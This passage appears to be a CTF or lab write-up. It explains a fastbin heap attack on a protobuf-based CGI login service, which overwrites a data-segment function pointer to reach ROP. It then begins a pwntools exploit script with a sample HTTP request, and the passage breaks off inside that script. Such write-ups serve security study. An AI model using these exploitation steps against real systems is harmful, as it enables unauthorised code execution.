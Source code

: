 [![](assets/1706958480-c1dcd9378056d4658ea815805afdd80a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240130151309-05afcbcc-bf3f-1.png)

`fastbin attack` can be constructed in the above way. After that, you can use `fastbin attack` to modify the function pointer of the data segment, jump to ROP and finally complete the exploit (PS: The interesting point here is that if there is no function pointer stored in the data segment by protobuf, when Full RELRO is turned on, this vulnerability cannot be exploited.)

The complete exploit script is as follows:

```plain
#!/usr/bin/env python3
from pwn import *
context.arch = "amd64"
context.log_level = "debug"

# POST /cgi-bin/login.cgi HTTP/1.1
# Accept: application/json, */*
# Accept-Encoding: gzip, deflate
# Connection: keep-alive
# Content-Length: 171
# Content-Type: application/json
# Host: 192.168.64.135:8080
# User-Agent: HTTPie/1.0.3
# 
# {"data": "BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ", "timestamp": 61866, "data": "aaaa\u" aaaaaaaabaaaaaaacaaaaaaadaaaaaaa"}

blacklist_dict = {
    b"\b": b"\\b",
    b"\f": b"\\f",
    b"\n": b"\\n",
    b"\r": b"\\r",
    b"\t": b"\\t",
```